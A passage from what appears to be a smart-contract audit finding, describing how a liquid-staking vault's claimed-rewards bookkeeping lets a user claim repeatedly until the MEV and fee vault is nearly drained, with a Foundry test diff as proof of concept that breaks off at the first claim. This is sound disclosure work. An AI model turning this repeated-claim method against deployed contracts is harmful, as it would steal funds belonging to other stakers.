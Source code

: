This means the first time a user will claim their rewards they will get the correct amount and the correct value will be stored in the `claimed[_user][_token]`. When extra ETH is recieved from the MEV and fees rewards and the user claims their reward again, the claimed amount will only reflect the last claimed amount. As a result they can then repeatedly claim untill the MEV and Fee vault is almost depleted.

### [](#proof-of-concept-7)Proof of Concept

Following modification to the existing `StakingFundsVault.t.sol` will provide a test to demonstrate the issue:

    diff --git a/test/foundry/StakingFundsVault.t.sol b/test/foundry/StakingFundsVault.t.sol
    index 53b4ce0..4db8fc8 100644
    --- a/test/foundry/StakingFundsVault.t.sol
    +++ b/test/foundry/StakingFundsVault.t.sol
    @@ -4,6 +4,7 @@ import "forge-std/console.sol";
     
     import { StakingFundsVault } from "../../contracts/liquid-staking/StakingFundsVault.sol";
     import { LPToken } from "../../contracts/liquid-staking/LPToken.sol";
    +import { SyndicateRewardsProcessor} from "../../contracts/liquid-staking/SyndicateRewardsProcessor.sol";
     import {
         TestUtils,
         MockLSDNFactory,
    @@ -417,4 +418,73 @@ contract StakingFundsVaultTest is TestUtils {
             assertEq(vault.totalClaimed(), rewardsAmount);
             assertEq(vault.totalRewardsReceived(), rewardsAmount);
         }
    +
    +    function testRepetitiveClaim() public {
    +        // register BLS key with the network
    +        registerSingleBLSPubKey(accountTwo, blsPubKeyFour, accountFive);
    +
    +        vm.label(accountOne, "accountOne");
    +        vm.label(accountTwo, "accountTwo");
    +        // Do a deposit of 4 ETH for bls pub key four in the fees and mev pool
    +        depositETH(accountTwo, maxStakingAmountPerValidator / 2, getUint256ArrayFromValues(maxStakingAmountPerValidator / 2), getBytesArrayFromBytes(blsPubKeyFour));
    +        depositETH(accountOne, maxStakingAmountPerValidator / 2, getUint256ArrayFromValues(maxStakingAmountPerValidator / 2), getBytesArrayFromBytes(blsPubKeyFour));
    +
    +        // Do a deposit of 24 ETH for savETH pool
    +        liquidStakingManager.savETHVault().depositETHForStaking{value: 24 ether}(blsPubKeyFour, 24 ether);
    +
    +        stakeAndMintDerivativesSingleKey(blsPubKeyFour);
    +
    +        LPToken lpTokenBLSPubKeyFour = vault.lpTokenForKnot(blsPubKeyFour);
    +
    +        vm.warp(block.timestamp + 3 hours);
    +
    +        // Deal ETH to the staking funds vault
    +        uint256 rewardsAmount = 1.2 ether;
    +        console.log("depositing %s wei into the vault.\n", rewardsAmount);
    +        vm.deal(address(vault), rewardsAmount);
    +        assertEq(address(vault).balance, rewardsAmount);
    +        assertEq(vault.previewAccumulatedETH(accountOne, vault.lpTokenForKnot(blsPubKeyFour)), rewardsAmount / 2);
    +        assertEq(vault.previewAccumulatedETH(accountTwo, vault.lpTokenForKnot(blsPubKeyFour)), rewardsAmount / 2);
    +
    +        logAccounts();
    +
    +        console.log("Claiming rewards for accountOne.\n");
    +        vm.prank(accountOne);